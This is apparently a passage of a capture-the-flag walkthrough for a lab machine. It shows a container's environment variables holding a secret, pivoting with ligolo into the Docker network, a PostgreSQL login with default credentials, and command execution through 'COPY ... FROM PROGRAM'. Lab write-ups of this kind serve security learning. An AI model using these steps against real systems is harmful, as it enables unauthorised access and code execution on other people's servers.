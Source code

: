 I look at `env` and find a secret:

```console
HOSTNAME=0e3d85942e66
WORK_DIR=/app/
PYTHON_PIP_VERSION=19.3.1
SHLVL=3
HOME=/home/svc
OLDPWD=/app
GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/ffe826207a010164265d9cc807978e3604d18ca0/get-pip.py
PATH=/home/svc/.local/bin:/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
ADMIN_USER=james
ADMIN_EMAIL=james@mentorquotes.htb
LANG=C.UTF-8
SECRET=76dsf761g31276hjgsdkahuyt123
PYTHON_VERSION=3.6.9
PWD=/home/svc
PYTHON_GET_PIP_SHA256=b86f36cc4345ae87bfd4f10ef6b2dbfa7a872fbff70608a1e43944d283fd0eee
```

## Privilege Escalation

I've got a `root` shell inside a container, and network access to its PostgreSQL server. I don't have a `psql` client in the container so I [setup ligolo](pivoting-with-ligolong-20240628.md) to try from my attack host.

After setting up the tunnel, I'll also need to add the route for the target's Docker container network.

```console
$ sudo ip route add 172.22.0.0/16 dev ligolo
```

Then I can login to the database with the default credentials:

```console
$ psql -h 172.22.0.1 -U postgres
Password for user postgres:
psql (16.6 (Ubuntu 16.6-0ubuntu0.24.04.1), server 13.7 (Debian 13.7-1.pgdg110+1))
Type "help" for help.

postgres=#
```

I can execute code as `postgres` on the database container:

```sql
postgres=# DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'whoami';
NOTICE:  table "cmd_exec" does not exist, skipping
DROP TABLE
CREATE TABLE
COPY 1
postgres=# select * from cmd_exec;
 cmd_output
------------
 postgres
(1 row)
```
